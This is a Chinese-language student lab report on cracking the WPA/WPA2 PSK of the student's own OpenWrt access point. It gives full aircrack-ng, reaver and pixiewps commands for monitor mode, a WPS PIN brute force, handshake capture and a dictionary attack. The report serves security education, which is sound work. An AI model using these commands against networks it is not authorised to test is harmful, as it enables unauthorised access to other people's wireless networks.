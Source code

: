# PSK破解实验

## 实验目的

* 理解 `WPA/WPA2 PSK` 认证方式的认证凭据破解原理并了解使用常见工具进行 `PSK` 口令破解的基本方法；

## 实验环境

- 可以开启监听模式、AP 模式和数据帧注入功能的 USB 无线网卡；
- Kali 虚拟机；
- python scapy；
- aircrack-ng系列软件；
- Wireshark；
- 搭建 **被攻击网络** 所需要使用到的「无线 AP」或「无线路由器」；

## 实验过程

* 在kali虚拟机中使用舍友的网卡，检查无线网卡配置完成后，使用如下命令将网卡调为监听模式，并开始以channel hopping模式抓包

  ```
  airmon-ng check kill
  airmon-ng start wlan0
  airodump-ng wlan0mon
  ```

<img src="image\3.png" />

* 在openwrt中搭建自己的无线网络

<img src="image\6.png" />

<img src="image\8.png" />

* 可查看到附近的ESSID如图所示，找到自己搭建的无线网络，记录BSSID

<img src="image\4.png" />

* 使用`reaver -i wlan0mon -b 80:1F:02:42:0D:45 -vv -S -c 10`对自己搭建的wifi进行暴力破解PIN码，进行等待；

<img src="image\9.png" />

* 使用Pixiewps进行离线破解

根据`pixiewps -e <pke> -r <pkr> -s <e-hash1> -z <e-hash2> -a <authkey> -n <e-nonce>`对reaver抓取到的数据进行分析，从中获取pke pkr 等相关信息

* 当pixiewps破解出PIN码，回到reaver中输入：`reaver -i wlan0mon -b <BSSID MAC> -vv -p <wps PIN>`即可获得密码

* 此处由于使用reaver操作实验时间过长，采用aircrack-ng进行离线破解，输入`airodump-ng -c 10 --bssid 80:1F:02:42:0D:45 -w saved wlan0mon`进行抓包，再在wireshark中将过滤条件改为`eapol`，确认可以抓到四次握手包

<img src="image\11.png" />

* 将此.cap文件使用aircrack-ng破解，使用系统自带的字典与刚刚抓获的数据包saved-01.pacp，得到此ESSID的密码为12345678

```
aircrack-ng -w /usr/share/wordlists/nmap.lst saved-01.pacp
```

<img src="image\12.png" />

<img src="image\13.png" />

## 遇到的问题

* reaver操作一直在运行，但无法得到结果

暴力破解所需时间会由于PIN值复杂程度不同而不同，故reaver操作时间可能很长

## 参考资料

1.https://c4pr1c3.github.io/cuc-mis/chap0x03/main.html （**第三章 无线接入网入侵与防御**）

2.https://www.hackingtutorials.org/wifi-hacking-tutorials/pixie-dust-attack-wps-in-kali-linux-with-reaver/ （**reaver的使用**）